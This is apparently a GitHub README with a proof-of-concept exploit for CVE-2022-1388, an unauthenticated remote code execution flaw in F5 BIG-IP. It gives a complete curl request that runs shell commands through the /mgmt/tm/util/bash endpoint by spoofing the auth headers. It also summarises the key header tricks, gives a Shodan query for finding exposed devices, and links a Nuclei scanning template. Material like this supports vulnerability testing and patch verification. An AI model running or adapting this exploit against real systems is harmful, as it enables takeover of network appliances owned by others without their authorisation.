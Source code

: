 # CVE-2022-1388
F5 BIG-IP Unauthenticated RCE   
&nbsp;

## POC:
Use following POST request to execute ```id``` command.
```
curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Connection: keep-alive, X-F5-Auth-Token' -H $'Authorization: Basic YWRtaW46' -H $'X-F5-Auth-Token: a' -H $'Content-Length: 39' \
    --data-binary $'{\"command\":\"run\",\"utilCmdArgs\":\"-c id\"}' \
    $'https://IP_HERE/mgmt/tm/util/bash'
 ```
 ![poc](./poc.png)
&nbsp;
Key Points:
```
URL: /mgmt/tm/util/bash
Connection: keep-alive, X-F5-Auth-Token
Authorization: Basic YWRtaW46
X-F5-Auth-Token: anything
```
&nbsp;
## Shodan Query:
```
http.title:"BIG-IP&reg;-+Redirect" +"Server" 
```
&nbsp;

## Nuclei Template:
[CVE-2022-1388.yaml](./CVE-2022-1388.yaml)
</br>&nbsp;

## Credit
[AnnaViolet20](https://twitter.com/AnnaViolet20/status/1523564632140509184?s=20&t=dA5mPYazYHS6MuaFAaRvCw)'s tweet.</br>
[numanturle](https://github.com/numanturle/CVE-2022-1388)'s github page.
